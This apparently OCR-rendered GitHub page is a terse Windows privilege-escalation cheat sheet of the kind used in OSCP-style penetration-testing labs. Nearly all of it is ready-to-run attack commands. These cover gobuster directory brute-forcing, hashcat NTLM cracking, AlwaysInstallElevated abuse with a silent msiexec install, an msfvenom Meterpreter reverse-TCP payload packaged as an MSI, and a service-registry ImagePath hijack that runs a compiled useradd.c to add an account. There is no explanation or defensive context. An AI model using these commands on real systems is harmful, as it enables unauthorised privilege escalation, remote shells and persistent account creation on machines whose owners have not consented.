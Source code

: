 

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f
sc start regsvc

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
[Get useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f

